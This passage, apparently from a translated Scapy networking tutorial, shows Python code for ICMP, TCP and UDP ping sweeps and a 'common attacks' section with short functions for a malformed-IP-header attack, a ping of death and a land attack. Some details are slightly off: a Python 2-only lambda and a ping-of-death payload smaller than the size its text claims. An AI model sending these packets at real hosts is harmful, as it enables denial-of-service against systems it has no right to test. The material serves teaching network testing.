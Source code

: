 ```py
def answer_summary(answer_list):
 # example of lambda with pretty print
    answer_list.summary(lambda(s, r): r.sprintf("%IP.src% is alive"))
```

If you were wondering why there is a lambda in the preceding `answer_summary()` function, it is a way to create a small anonymous function. Basically, it is a function without a name. More information on it can be found at [https://docs.python.org/3.5/tutorial/controlflow.html#lambda-expressions](https://docs.python.org/3.5/tutorial/controlflow.html#lambda-expressions).

然后，我们可以在一个脚本中在网络上执行所有三种类型的 ping：

```py
def main():
    print("** ICMP Ping **")
    ans = icmp_ping("10.0.0.13-14")
    answer_summary(ans)
    print("** TCP Ping **")
    ans = tcp_ping("10.0.0.13", 22)
    answer_summary(ans)
    print("** UDP Ping **")
    ans = udp_ping("10.0.0.13-14")
    answer_summary(ans)

if __name__ == "__main__":
    main()
```

在这一点上，希望您会同意我的观点，通过构建自己的数据包，您可以负责您想要运行的操作和测试类型。

# 常见攻击

在本例中，让我们看看如何构造数据包来执行一些经典攻击，例如*死亡 Ping*（[）https://en.wikipedia.org/wiki/Ping_of_death](https://en.wikipedia.org/wiki/Ping_of_death) 和*对地攻击*（[https://en.wikipedia.org/wiki/Denial-of-service_attack](https://en.wikipedia.org/wiki/Denial-of-service_attack) 。这可能是您以前必须使用类似的商业软件支付的网络渗透测试。使用 Scapy，您可以在保持完全控制的同时进行测试，并在将来添加更多测试。

第一次攻击基本上是向目标主机发送假 IP 头，例如长度为 2 的 IP 版本 3：

```py
def malformed_packet_attack(host):
    send(IP(dst=host, ihl=2, version=3)/ICMP()) 
```

`ping_of_death_attack`由负载大于 65535 字节的常规 ICMP 数据包组成：

```py
def ping_of_death_attack(host):
    # https://en.wikipedia.org/wiki/Ping_of_death
    send(fragment(IP(dst=host)/ICMP()/("X"*60000)))
```

`land_attack`想要将客户端响应重定向回客户端本身，并耗尽主机的资源：

```py
  def land_attack(host):
      # https://en.wikipedia.org/wiki/Denial-of-service_attack
      send(IP(src=host, dst=host)/TCP(sport=135,dport=135))
```
